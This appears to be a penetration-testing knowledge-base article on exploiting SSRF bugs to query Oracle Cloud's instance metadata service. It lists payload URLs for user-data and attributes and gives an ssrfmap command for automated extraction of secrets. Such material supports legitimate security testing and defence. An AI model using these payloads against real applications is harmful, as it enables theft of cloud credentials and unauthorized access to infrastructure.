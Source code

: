 ```yaml
---
title: 'Oracle Cloud SSRF Vulnerabilities: Exploitation Guide'
description: Explore exploitation of Oracle Cloud's metadata service via SSRF vulnerabilities
  to extract sensitive data.
keywords:
- Oracle Cloud
- SSRF vulnerabilities
- metadata service
- data extraction
- instance metadata
- user-data
- security
- cloud exploitation
---
```


# Oracle Cloud

## Context

This article aims to demonstrate the exploitation of Oracle Cloud's instance metadata service using Server-Side Request Forgery (SSRF) techniques to extract sensitive information. It assumes you have a foundational understanding of the HTTP protocol, cloud service architectures, and general metadata service exploitation methods via SSRF.

## Theory

### Oracle Cloud Instance Metadata Service (IMDS)

The Oracle Cloud Instance Metadata Service (IMDS) is a local HTTP endpoint located at `http://192.0.0.192`. It provides instance-specific metadata to Oracle Cloud compute instances. This service is only accessible from within the instance's network and is not exposed externally, making it a prime target for exploitation through SSRF vulnerabilities in web applications. If an application has an SSRF vulnerability, it can be manipulated to communicate with the IMDS endpoint, potentially accessing sensitive metadata.

### Metadata Endpoint Structure and Sensitive Data

The Oracle Cloud IMDS endpoint structure is designed to return instance metadata, which can include vital credentials and configuration settings. The metadata could contain the following sensitive components:

- **user-data**: This is custom data that can be provided when the instance is launched. It often includes secrets or specific configuration details.

- **attributes**: These are key-value pairs that provide instance-specific information. This data can sometimes include sensitive tokens or other confidential information.

Understanding the data flow involving these endpoints helps identify the critical areas where data extraction can occur if vulnerabilities are present.

### Attacker Goals and Threat Surface

By exploiting SSRF vulnerabilities, attackers aim to query the IMDS, enumerate available endpoints, and extract sensitive data from them. The threat model assumes that applications tend to trust internal network requests. Therefore, if an SSRF vulnerability is present, it creates an opportunity to reach the IMDS, facilitating unauthorized access to the instance's metadata.

## Practice

### Enumerate Oracle Cloud IMDS via SSRF

In this section, we explore how to manually enumerate the Oracle Cloud IMDS by leveraging SSRF vulnerabilities.

- **Initial Probe**:
  
  ```http
  http://192.0.0.192/latest/meta-data/
  ```
  This initial request confirms access to the instance metadata service through an SSRF vulnerability.

- **Retrieve User-Data**:
  
  ```http
  http://192.0.0.192/latest/user-data
  ```
  Attempt to access `user-data`, which may contain secrets or configurations provided during the instance launch.

- **List Attributes**:
  
  ```http
  http://192.0.0.192/latest/attributes/
  ```
  Query this endpoint to list available attributes for further targeted extraction.

- **Extract Specific Attribute Values**:
  
  ```http
  http://192.0.0.192/latest/attributes/<attribute_name>
  ```
  Replace `<attribute_name>` with the keys discovered earlier to extract their values.

Using these payloads, one can gain access to sensitive data such as credentials, configuration settings, and other secrets stored within the instance metadata.

### Automated Metadata Extraction Using SSRF Exploitation Tools

For more efficient exploitation, you can use automated tools like SSRFMap to facilitate metadata extraction.

- **Automated SSRF Exploitation**:

  ```bash
  ssrfmap -r request.txt -p url -m oracle -o output.txt
  ```
  
  This command automates the process of sending SSRF payloads and extracting metadata by targeting Oracle's IMDS. The results are saved in `output.txt`.

## Tools

- **ssrfmap**
- **curl** 

By following the approaches outlined above, you can effectively exploit SSRF vulnerabilities to access Oracle Cloud's instance metadata, gaining potentially sensitive insights into the cloud environment. Ensure to conduct these activities within legal and ethical boundaries, respecting all relevant laws and regulations.